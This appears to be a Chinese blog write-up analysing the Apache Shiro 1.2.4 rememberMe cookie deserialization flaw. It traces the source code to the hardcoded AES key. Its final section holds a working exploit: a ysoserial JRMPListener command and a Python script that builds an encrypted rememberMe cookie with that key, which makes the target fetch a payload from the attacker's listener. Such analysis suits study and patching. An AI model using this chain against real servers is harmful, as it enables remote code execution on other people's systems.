









# Shiro反序列化命令执行分析

### 写在前面

本文内容大概是Shiro反序列化执行命令的过程分析以及相关代码审计

### 环境包问题

编译挺麻烦的，我是直接借用大佬编译好的漏洞包https://cloud.tencent.com/developer/article/1472310

下载war后，将war文件放到tomcat目录下的webapps目录下，这时启动tomcat就可以主动解压，访问`http://locathost:8080/samples-web-1.2.4`即可访问。


### 漏洞原理分析

shiro针对用户的权限鉴定就是每次拿到cookie中的RememberMe的值先进行解密再进行反序列化，既然是反序列化，那么就找找它反序列化的函数在哪里。

因为漏洞成因是Rememberme处cookie进行了反序列化，所以找代码处应该查找对cookie的操作。



这就是使用了存在此漏洞的Shiro框架的漏洞标志。先看看代码吧，双击Shift搜索cookie，找到`CookieRemembermeManager`



确认是否为shiro包内的代码。

进入后看到对cookie进行序列化和反序列化的函数`rememberSerializedIdentity`/`getRememberedSerializedIdentity`，看看进行反序列化的函数，还有哪里调用了这个函数。



在`AbstractRememberMeManager`中存在调用

```java
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
        PrincipalCollection principals = null;
        try {
            byte[] bytes = getRememberedSerializedIdentity(subjectContext);
            //SHIRO-138 - only call convertBytesToPrincipals if bytes exist:
            if (bytes != null && bytes.length > 0) {
                principals = convertBytesToPrincipals(bytes, subjectContext);
            }
        } catch (RuntimeException re) {
            principals = onRememberedPrincipalFailure(re, subjectContext);
        }

        return principals;
    }
```

调用之后，赋值给`bytes`，随后进入if语句中的`convertBytesToPrincipals`方法，继续跟进

传入后，在`convertBytesToPrincipals`方法中进行一个解密处理，`decrypt()`方法。随后return一个反序列化的结果。在此之前，先进入`decrypt()`方法继续分析。

```java
protected byte[] decrypt(byte[] encrypted) {
        byte[] serialized = encrypted;
    //实例化一个获取密钥的服务
        CipherService cipherService = getCipherService();
        if (cipherService != null) {
            ByteSource byteSource = cipherService.decrypt(encrypted, getDecryptionCipherKey());
            serialized = byteSource.getBytes();
        }
        return serialized;
    }
```

传入`encrypted`值后，立刻赋值给了`serialized`，然后实例化一个获取密钥的服务，进入`cipherService.decrypt`，继续跟进。

进入一个接口类

```java
ByteSource decrypt(byte[] encrypted, byte[] decryptionKey) throws CryptoException;
```

它有两个参数，分别是加密的字段和key

然后跟着那个接口



来到`JcaCipherService`中的`decrypt()`方法

直到现在位置，我们代码已经传了好几个文件了。但是发现了一个问题就是这个key，它没有在这种函数中被赋值，都是直接调用的，所以现在需要找到关于key的函数。那么就要回溯到`AbstractRememberMeManager`中的`decrypt()`方法中去


这里是获取key值的。跟进这边的方法，跟进到最后，发现他是一个常量



常量就好说了，找下它在哪边赋值，然后就可以知道它的值是什么了，从这里也就可以看出来它的key是固定的了。然后追踪它的key值在哪里写的，也就是在find Usages中查找找`Value write`。

然后是找到了`SetDecryptionCipherKey`方法，继续向上查找，跟到了`setCipherKey`，看下图



再次跟进就发现了


`setCipherKey(DEFAULT_CIPHER_KEY_BYTES);`常量找到了，就是


这是确定了加密的key是固定的，可以进行利用此密钥进行解密。AES算法在注释当中已经标明了。加密解密就不写了。打CTF的师傅都很了解。

### debug验证分析

现在进行debug，验证上面分析的流程。

#### 如何启动tomcat时进行debug

大师傅忽略此教程哈

编辑tomcat的配置信息，如下图



设置debug处信息，然后apply。

随后正常启动tomcat，启动之后再点击debug，这时server旁边会出现一个新的debugger窗口


然后就可以实现抓取web端输入的数据进入IDEA进行debug。

科普结束回归正题。

<--分割线-->

继续走，到`cipherService.encrypt`处，可以发现此时已经知道了确实是调用了AES加密，是CBC模式加密方式。



然后进入函数，先看密钥吧，就进入`getEncryptionCipherKey()`，走一遍已经可以获取到key了


然后进入`encrypt`其实就是AES的加密过程了，这个不深究（主要是不会）

其实只要一直向下走，函数分析，过程已经在前面分析过了，这只是验证能否顺利得到我们分析的结果

继续走，直到序列化的数据出来就可以了


这个过程，账号登录的时候的一个流程。


走完全部流程，登录成功。

### 攻击方式验证

这里使用`ysoserial`做个攻击验证

执行命令弹出计算器

```java
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "command"
```


在1099端口开启监听，然后使用python实现对payload的加密解密

```python
# -*- coding: utf-8 -*-
# @Software : Pycharm
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])
print("rememberMe={0}".format(payload.decode()))
```

执行`python exp_shiro.py U_host:1099`


这里给看新手教程的师傅们提一下，首先需要有一个登陆状态，然后访问直接登录，让系统去调用这个记住密码，去读cookie的内容进行反序列化。首先在cookie中有个值是`JSESSIONID=61BD9B8C0606F2A130800B3257EF5EE6;`它也是验证身份的一个点，在`JSESSIONID`存在时，它不会去验证`rememberMe`的值。所以需要将cookie中的`JESSIONID`先删除掉，再写入我们生成的`rememberMe`，发包即可。


### 参考资料

[https://zeo.cool/2020/09/03/Shiro%20550%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90+poc%E7%BC%96%E5%86%99/](https://zeo.cool/2020/09/03/Shiro 550 反序列化漏洞 详细分析+poc编写/)

https://www.cnblogs.com/liangzai6/p/14505494.html

[https://xz.aliyun.com/t/8997](https://xz.aliyun.com/t/8997#toc-4)

https://www.jianshu.com/p/a9c2d3414b63

https://www.yuque.com/kevin-eb6ln/dyniv1/dfxi6h